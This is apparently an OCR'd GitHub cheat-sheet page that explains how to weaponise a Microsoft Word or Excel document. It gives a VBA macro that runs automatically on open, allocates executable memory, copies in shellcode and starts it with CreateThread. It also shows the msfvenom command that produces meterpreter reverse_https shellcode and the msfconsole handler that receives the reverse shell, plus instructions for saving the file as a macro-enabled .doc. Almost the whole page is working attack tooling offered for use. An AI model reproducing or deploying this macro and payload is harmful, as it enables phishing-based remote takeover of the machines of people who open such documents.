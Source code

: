 ```
  Dim data As LongPtr
  Dim res As LongPtr
  buf = Array(YOUR ARRAY HERE)
  addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
  For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
  Next counter
  res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub
```

Prepare for the incoming shell:

```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```

# For 32-bit!
[64-bit here](#for-64-bit)

First prepare the shellcode:

```
msfvenom -p windows/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f vbapplication
```

Next in Microsoft Word do this:

* Go to View, Select Macros
* **Very Important** Under Macros In, select the current document name (Document1 if unsaved)
* Name the macro AutoOpen (If you change this you need to change multiple references below)
* Save the document as \*.doc (\*.docx will not run macro)
* Change function name for Excel. For example, Document_Open() is called Workbook_Open() in Excel

```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
  Dim buf As Variant
  Dim addr As LongPtr
  Dim counter As Long
  Dim data As Long
  Dim res As Long
  buf = Array(YOUR ARRAY HERE)
```